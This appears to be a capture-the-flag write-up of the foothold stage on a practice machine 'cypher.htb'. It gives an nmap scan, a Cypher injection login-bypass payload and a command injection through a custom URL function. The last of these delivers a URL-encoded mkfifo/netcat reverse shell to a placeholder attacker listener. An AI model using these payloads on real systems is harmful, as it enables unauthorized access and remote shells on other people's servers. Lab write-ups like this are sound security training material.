 ### Foothold

## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

![Demo page](img/Demopage.png)

## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

This payload leverages a custom function to retrieve the HTTP status code from a specified URL. However, it also includes a command injection ($(whoami)) at the end of the URL, which attempts to execute a system command on the server.

### How to use?

1. Set up netcat listener on your port.

```bash
nc -lnvp 4444
```

2. Enter the payload into search query on the website.

```bash
CALL custom.getUrlStatusCode("http://<ip>:<port>/?c=$(rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ip>%20<port>%20%3E%2Ftmp%2Ff)")
```

3. Check your listener for response.

![Foothold](img/foothold.png)
   

